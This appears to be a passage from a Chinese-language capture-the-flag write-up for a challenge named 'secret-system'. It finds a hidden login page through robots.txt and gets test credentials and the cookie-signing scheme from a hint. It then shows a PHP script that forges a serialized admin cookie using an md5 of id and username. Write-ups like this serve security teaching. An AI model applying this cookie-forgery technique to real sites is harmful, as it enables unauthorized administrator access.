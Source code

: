 #### secret-system

进入题目页面，访问`robots.txt`，可知登录页面URL

```
User-agent: *
Disallow: index.php?r=site/loginuser_1
```

查看登录页源代码可见提示：

```
<li><a href="/web/index.php?r=">login</a></li>
<li><a href="/web/index.php?r="></a></li></ul></div></div></nav>
    <div class="container">
                <!--
*** author: cib_zhinianyuxin.com
*** code: github.com
-->
<div class="site-loginuser_1">

    <form id="w0" action="/web/index.php?r=site/loginuser_1" method="post">
```

访问作者的`Github`仓库：`https://github.com/cumtxujiabin/secret-system`

看到提示：

```

1. you can use test/cib_sec to login ,but you are not admin!
2. only admin can upload file ,but whichone can not bypass my rules.

/**
$sign = array(
                    'id'=>$model->id,
                    'name'=>$model->username,
                    'sign'=>md5($model->id.$model->username),
                );
$_COOKIE['Cib_security'] = serialize($sign);
**/

```

可知：

+ 能以`test/cib_sec`账户登录
+ `Cookie`为`array`对象的序列化

所以我们可以尝试伪造序列化的数据，写PHP脚本：

```php
<?php
    $sign = array(
                    'id'=>"1",
                    'name'=>"admin",
                    'sign'=>md5("1"."admin"),
                );
	echo serialize($sign);
```
